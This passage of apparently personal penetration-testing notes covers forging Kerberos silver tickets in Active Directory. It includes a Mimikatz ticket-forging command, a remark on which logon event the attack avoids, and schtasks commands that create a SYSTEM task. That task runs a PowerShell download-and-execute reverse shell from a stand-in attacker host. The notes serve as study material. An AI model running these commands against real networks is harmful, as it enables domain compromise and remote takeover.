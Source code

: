 service</li></ul><ul id="bda41cf6-cbc8-49be-bf64-fb102d9abf18" class="bulleted-list"><li style="list-style-type:disc">requires NTLM hash of service account</li></ul><ul id="a9cae0d7-e55f-45e8-bd99-8b3eeeab945d" class="bulleted-list"><li style="list-style-type:disc">allows you to impersonate any user when accessing service</li></ul><ul id="9834d535-9e45-482e-a2f6-75c0e328077d" class="bulleted-list"><li style="list-style-type:disc">unless using silver ticket against DC, this silver ticket does not trigger a <code>4672</code> (Admin Logon) event</li></ul><ul id="8bd82816-da59-48cc-9c65-b2383636108c" class="bulleted-list"><li style="list-style-type:disc">silver ticket fails if PAC check is made (not enabled by default)<ul id="b479bbbd-73de-4e7f-9d1b-e3960b1f271e" class="bulleted-list"><li style="list-style-type:circle">PAC stands for Privileged Attribute Certificate </li></ul></li></ul><ul id="7dba50b9-90cc-44df-9cc3-d1eeb011bfd3" class="bulleted-list"><li style="list-style-type:disc">silver tickets last 30 days by default for computer accounts<ul id="ccc9a3e4-6ad0-4560-929f-e8dcd09d9b12" class="bulleted-list"><li style="list-style-type:circle">note machine account passwords are rotated unlike krbtgt</li></ul></li></ul><p id="a71840e5-432a-4d48-9886-7a4383c3e858" class=""><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong>Creating Silver Ticket</strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></p><pre id="4a1fb8cb-29f3-4856-9c43-0b8cfe6d07f8" class="code"><code>	Invoke-Mimikatz -Command &#x27;&quot;kerberos::golden /User:Administrator /domain:follow.0xd4y_notes.local /sid:&lt;SID&gt; /target:follow-dc.0xd4y_notes.local /service:&lt;SERVICE&gt; /rc4:&lt;NTLM_HASH&gt; /ptt&quot;&#x27;</code></pre><ul id="2614c470-753e-420e-949a-9b7280ddb7b3" class="bulleted-list"><li style="list-style-type:disc">note the service can be WSMAN, RPCSS, HOST, etc.</li></ul><ul id="d5b2ef1d-ae54-4668-bb47-d4ab7ccf73ba" class="bulleted-list"><li style="list-style-type:disc">you can get RCE by creating silver ticket for HOST service and creating a scheduled task<ul id="80c303af-0e46-4262-a505-f373314f248e" class="bulleted-list"><li style="list-style-type:circle"><code>schtasks /create /S follow.0xd4y_notes.local /sc Weekly /ru &quot;NT Authority\SYSTEM&quot; /tn: &lt;TASK_NAME&gt; /tr &lt;REVERSE_SHELL_PAYLOAD&gt;</code> then, run the task with <code>schtasks /run /s follow.0xd4y_notes.local /tn &lt;TASK_NAME&gt;</code></li></ul></li></ul><ul id="c7d9fa4b-5598-4b2a-9cab-18918b4b51ba" class="bulleted-list"><li style="list-style-type:disc">also possible to execute commands with WMI service (check with <code>gwmi -Class win32_operatingsystem -ComputerName follow.0xd4y_notes.local</code>)</li></ul><p id="822907c7-3058-4111-84d8-39fde8cd5ec2" class=""><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong>Getting RCE</strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></p><ul id="c413b6b8-2b72-414c-a576-04a2c0aa1976" class="bulleted-list"><li style="list-style-type:disc">create silver ticket for HOST service</li></ul><pre id="3ba8e855-ced0-406f-8ae5-cebc457445db" class="code"><code>schtasks /create /S target.0xd4y_notes.local /SC Weekly /RU &quot;NT Authority\System&quot; /TN &quot;Follow0xd4yTask&quot; /TR &quot;powershell.exe -c &#x27;IEX(New-Object Net.WebClient).DownloadString(&#x27;&#x27;http://attacker_server.com/Reverse_Shell.ps1&#x27;&#x27;&#x27;)&#x27;&quot;